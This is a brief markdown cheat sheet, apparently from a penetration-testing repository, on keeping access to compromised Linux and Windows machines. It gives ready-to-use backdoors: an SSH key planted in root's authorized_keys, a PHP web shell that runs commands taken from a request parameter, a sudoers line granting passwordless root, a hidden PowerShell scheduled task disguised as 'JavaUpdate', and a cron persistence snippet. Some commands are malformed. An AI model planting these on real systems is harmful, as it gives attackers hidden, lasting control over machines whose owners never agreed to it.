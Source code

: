 ## Linux

### SSH Key
```bash
echo "my_id_rsa.pub" > /target machine/root/.ssh/authorized_keys
```

### PHP Command Execution
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

### Sudoers
```
<YOUR_USERNAME>        ALL=(ALL)        NOPASSWD: ALL
```
## Persistence Trigger
Persistence trigger is what will make our payload execute. We can either use cronjobs, services, registry, or scheduled tasks.

### Windows

#### Schedule tasks Persistence
```posh
PS C:\ ScheduledTask-Persistence - Time 13:45 -TaskName JavaUpdate -Payload "powershell.exe -exec bypass -nop -w hidden -File 'c:\windows\temp\grouppolicy.ps1'"
```

### Linux

#### Cronjob
```bash
CT=$(crontab -l)
CT=$CT$'\n10 * * * * yourcommandhere'
printf "$CT" | crontab -
```